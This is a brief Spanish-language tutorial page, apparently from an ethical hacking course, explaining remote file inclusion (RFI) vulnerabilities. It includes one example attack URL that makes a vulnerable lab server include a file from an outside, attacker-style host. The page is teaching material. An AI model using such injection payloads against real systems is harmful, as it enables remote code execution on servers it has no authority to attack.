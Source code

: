 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# RFI

\
Las vulnerabilidades de inclusión remota de archivos (RFI) son similares a las vulnerabilidades LFI. Sin embargo, cuando un atacante explota una vulnerabilidad RFI, en lugar de acceder a un archivo de la víctima, el atacante puede ejecutar código alojado en su propio sistema (el sistema atacante).

**NOTA** Las vulnerabilidades de RFI son fáciles de explotar; sin embargo, son menos comunes que las vulnerabilidades de LFI.

La Figura 6-23 muestra un ejemplo de cómo explotar una vulnerabilidad de inclusión remota de archivos.

_**Figura 6-23**_ _: Explotación de una vulnerabilidad de inclusión remota de archivos_

![](https://skillsforall.com/content/eh/1.0/m6/course/en-US/assets/e4096a387e8bab87ad6e18dd1407354c362d5668.png)

El atacante ingresa la siguiente URL para realizar el ataque en la Figura 6-23:

```
http://192.168.78.8:66/vulnerabilities/fi/?page=http://malicious.h4cker.org/malware.html
```

En este ejemplo, es probable que el sitio web del atacante (http://malicious.h4cker.org/malware.html) albergue malware o scripts maliciosos que pueden ejecutarse cuando la víctima visita ese sitio.

**NOTA** La URL [_http://malicious.h4cker.org/malware.html_](http://malicious.h4cker.org/malware.html) es una URL real, pero no es un sitio malicioso. Si se conecta a él en un navegador web, verá un mensaje similar al de la Figura 6-23.
